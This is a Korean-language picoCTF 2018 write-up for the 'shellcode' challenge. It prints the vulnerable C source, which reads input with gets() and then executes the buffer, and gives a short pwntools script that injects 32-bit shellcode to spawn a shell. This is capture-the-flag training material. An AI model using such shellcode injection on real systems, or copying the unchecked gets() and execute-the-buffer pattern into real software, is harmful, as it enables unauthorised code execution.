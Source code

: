 # picoCTF 2018

<h5> shellcode </h5>
<hr>

<h5> Solution </h5>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

<p> 이번 문제는 buf를 입력받지만, 해당 공간에 shellcode 를 작성해서 실행시키면 되는 문제이다. </p>
<p> 바이너리가 32비트 파일이기 때문에 32비트 환경에 맞는 shellcode 를 작성해주면 된다. </p>

```py
#!/usr/bin/python

p = process('./vuln')

shellcode = asm(shellcraft.i386.linux.sh())

p.sendline(shellcode)

p.interactive()
```